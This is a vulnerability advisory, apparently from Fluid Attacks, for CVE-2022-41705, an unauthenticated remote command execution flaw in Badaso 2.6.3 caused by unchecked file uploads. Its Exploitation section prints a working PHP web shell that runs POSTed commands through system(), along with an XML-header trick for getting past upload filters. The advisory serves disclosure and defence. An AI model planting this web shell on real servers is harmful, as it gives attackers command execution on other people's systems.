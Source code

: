 ```yaml
---
slug: advisories/headhunterz/
title: Badaso 2.6.3 - Remote Command Execution
authors: Carlos Bello
writer: cbello
codename: headhunterz
product: Badaso 2.6.3 - RCE
date: 2022-11-15 09:30 COT
cveid: CVE-2022-41705
severity: 10.0
description: Badaso 2.6.3    -    Remote Command Execution (RCE)
keywords: Fluid Attacks, Security, Vulnerabilities, Badaso, RCE
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                                    |
| --------------------- | -------------------------------------------------------------------|
| **Name**              | Badaso 2.6.3 - RCE                                                 |
| **Code name**         | [Headhunterz](https://en.wikipedia.org/wiki/Headhunterz)           |
| **Product**           | Badaso                                                             |
| **Affected versions** | Version 2.6.3                                                      |
| **State**             | Public                                                             |
| **Release date**      | 2022-11-15                                                        |

## Vulnerability

|                       |                                                                                                                             |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------|
| **Kind**              | Remote command execution                                                                                                    |
| **Rule**              | [004. Remote command execution](https://docs.fluidattacks.com/criteria/vulnerabilities/004)                                 |
| **Remote**            | Yes                                                                                                                         |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H                                                                                |
| **CVSSv3 Base Score** | 10.0                                                                                                                        |
| **Exploit available** | Yes                                                                                                                         |
| **CVE ID(s)**         | [CVE-2022-41705](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-41705)                                             |

## Description

Badaso version 2.6.3 allows an unauthenticated remote attacker to
execute arbitrary code remotely on the server. This is possible
because the application does not properly validate the data uploaded
by users.

## Vulnerability

This vulnerability occurs because the application does not correctly
validate files uploaded by users. Thanks to this, we uploaded a file
with malicious PHP code, instead of an image file.

## Exploitation

To exploit this vulnerability, the following file must be sent to the
server:

### exploit.php

```php
<?xml version="1.0" standalone="no"?>
<?php
    if($_POST && $_POST['password']==="AGSH635479302H235") {
        echo system($_POST['cmd']);
    }
?>
```

It is important to put an XML header before the malicious code to
bypass security controls.

## Evidence of exploitation

![RCE-badaso](https://user-images.githubusercontent.com/51862990/196501094-37997697-2346-42a6-891c-b2044cf8d0b8.gif)

![image](https://user-images.githubusercontent.com/51862990/196500837-06a8ce8a-3fff-42cc-b3b9-8aad023719f2.png)

## Our security policy

We have reserved the CVE-2022-41705 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: Badaso 2.6.3

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://github.com/uasoft-indonesia/badaso>

**Issue** <https://github.com/uasoft-indonesia/badaso/issues/818>

## Timeline

<time-lapse
  discovered="2022-10-24"
  contacted="2022-10-24"
  replied="2022-10-24"
  confirmed="2022-10-26"
  patched=""
  disclosure="2022-11-15">
</time-lapse>
